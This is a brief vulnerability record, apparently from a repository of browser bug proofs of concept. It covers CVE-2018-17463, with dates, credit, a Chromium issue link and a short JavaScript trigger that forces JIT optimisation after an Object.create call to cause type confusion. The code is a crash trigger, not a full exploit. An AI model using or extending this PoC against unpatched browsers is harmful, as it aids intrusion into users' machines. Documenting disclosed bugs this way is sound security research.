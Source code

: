 # CVE-2018-17463

- Report: Sep 2018
- Fix: Oct 2018
- Credit: Samuel Gross

## PoC

```javascript
function f(o) {
  o.x;
  Object.create(o);
  return o.y.a;
}

f({ x : 0, y : { a : 1 } });
f({ x : 0, y : { a : 2 } });
for (let i = 0; i < 100000; i++) // Optimize
  f({ x : 0, y : { a : 3 } });
console.log(f({ x : 0, y : { a : 3 } }));
```

## Reference

- [Issue](https://crbug.com/888923)
